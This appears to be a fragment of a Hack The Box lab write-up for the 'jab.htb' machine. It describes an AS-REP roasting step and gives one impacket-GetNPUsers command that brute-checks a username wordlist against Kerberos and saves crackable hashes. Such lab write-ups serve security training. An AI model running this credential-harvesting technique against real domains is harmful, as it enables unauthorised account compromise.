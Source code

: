   <img src="images/users.png" />
</p>

Not having much information and knowing that Kerberos is present, I performed the [ASRep Roasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast) using [impacket](https://github.com/fortra/impacket) with the following command:

`impacket-GetNPUsers jab.htb/ -usersfile /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -format hashcat -outputfile hash`

After a while we have results.

<p align="center">
  <img src="images/hash.png" />
</p>
